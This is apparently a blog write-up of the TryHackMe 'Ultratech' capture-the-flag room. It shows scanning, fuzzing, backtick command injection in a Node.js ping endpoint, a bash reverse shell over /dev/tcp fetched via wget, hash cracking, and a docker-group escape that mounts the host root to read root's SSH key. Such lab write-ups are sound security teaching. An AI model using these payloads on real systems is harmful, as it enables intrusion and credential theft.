 ```yaml
---
title: Ultratech | Tryhackme writeup
date: 2022-05-08 18:30:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, penetration, testing, hacking, ethical, Ultratech, docker privesc, enumeration, nodejs service, easy password cracking, medium]
comments: false

---
```




This is my writeup for **Ultratech** room from Tryhackme, it' a Medium difficulty room and it covers the following :
- User enumeration
- Fuzzing
- Nodejs API command injection
- Credential cracking
- Docker group privilege escalation

# Scanning

When doing the usual **Nmap** scan i get 4 open ports, 21 and 22 are the usual ones for **ftp** and **ssh**, but i dont know what the other two are so i run 
**Nmap** again but this time with **-sCV** options to know the services and versions of that ports.

![First Nmap scan for open ports](/assets/img/ultratech/001.png)
_Nmap scanning for open ports_

![Second Nmap scan for versions](/assets/img/ultratech/002.png)
_**-sCV** scan to know version and service of ports 31331 8081_

The ports finally are **Apache** http for 31331 and **Node** for 8081.

Im running **whatweb** in parallel to know what technologies the webs have.
![Web scanning with watweb](/assets/img/ultratech/003.png)
_Web scanning with whatweb_
I don't find nothing interesting so now i'm going to visit the port 31331 web first and see what i can find.

The're is a section of the web diplaying the members working on the project and their nicknames and these nicknames may be usernames for login so i save them.
![Members section web](/assets/img/ultratech/004.png)
_Potential usernames_

## Fuzzing
I can't find anything else so i'm going to start fuzzing the 31331 port website.
I'm using wfuzz with a short dictionary of routes, and the results are as follows:
![Fuzzing 1](/assets/img/ultratech/005.png)
_Fuzzing 31331 route_
Im checking **robots.txt** first and this is interesting because there's a route to another .txt inside.
```
utech_sitemap.txt
```
When checking this txt three routes are displaying, two of them are the ones that i previously saw when inspecting the web, but the third one is new.
```
/index.html
/what.html
**/partners.html**
```
Inside /partners.html there's a login panel.

![Hidden login panel](/assets/img/ultratech/006.png)
_Login panel inside partners.html_
Trying random credentials redirects me to port 8081/auth route saying Invalid login.

Checking the other routes i got when fuzzing, i see this api.js interesting file inside /js folder.
![api.js source code](/assets/img/ultratech/007.png)
_/js/api.js source code_

# Gaining access
The line in red is the most interesting to me, i think that maybe i can inject commands there.
I tried the following:
- http://IP/ping?ip=MYIP \| whoami (didn't work)
- http://IP/ping?ip=MYIP ; whoami (didn't work)(; got removed)
- http://IP/ping?ip= 'whoami' (didn't work)
- http://IP/ping?ip= \`whoami\` (**WORKS**)

_(The idea of using `` came to my mind looking at the code i saw earlier and some NodeJs examples that i found online)_

With this i have Remote Command Execution and i can work getting a reverse shell.
Sadly i can't get a reverse shell from the search bar with various methods so I script this:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.70.95/443 0>&1'
```
And now i can get this script by tarting a python http server:

```bash
python3 -m http.server 80
```
and launching wget to the script route.
```
http://MACHINEIP/ping?ip=`http://MYIP/script.sh`
```
It worked!
![wget worked](/assets/img/ultratech/008.png)
_wget Completed: response 200 OK_
Now i could do **bash script.sh**, but i did **ls** before and there is a sqlite backup i didn't see earlier.
There are two hashes there, one of them for one of the names in the website.
![sqlite backup contents](/assets/img/ultratech/009.png)
_Two hashes inside the sqlite backup_
Cracking the hashes in crackstation.net gives me the passwords:
![Hash 1 cracked](/assets/img/ultratech/010.png)
_Hash 1 cracked_
![Hash 2 cracked](/assets/img/ultratech/011.png)
_Hash 2 cracked_

Now im quickly trying the credentials in the login page from before. Both of them gives me the same result:
![Message behind the login](/assets/img/ultratech/012.png)
_Message from a dev to the user i had from before_

I didn't know what to do, reading the message i randomly tought that maybe he wants me to login into the server, so i tried to login with the credentials i had into ssh and it worked!

![Access gained](/assets/img/ultratech/013.png)
_Access gained as non-privileged user_
# Privilege escalation
First time i do is **id** and i see this output:
![id output](/assets/img/ultratech/014.png)
_id output_

My user has docker permissions so maybe i can mount machine's / into the container as root.

Doing this i see that there's an image called **bash**:
```bash
docker images
```

So now i can do this to mount / , run the container as root and then launch **sh**:
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

![Privesc to root into the container](/assets/img/ultratech/015.png)
_Privesc to root into the container_

Because the whole filesystem is mounted into my container, i can access everything outside the container from the inside.
The last task asks me to get the first characters from root's id_rsa, and i found it into /root/.ssh/id_rsa:

![Content of root's id_rsa](/assets/img/ultratech/015.png)
_Root's private ssh key_

I could create a new superuser for persistence or change root's password as we can access and edit /etc/shadow and /etc/password,
but as this is a ctf and i completed all the tasks, this ends here for me. Pretty interesting room 😊

Thanks for reading, have a happy hacking!


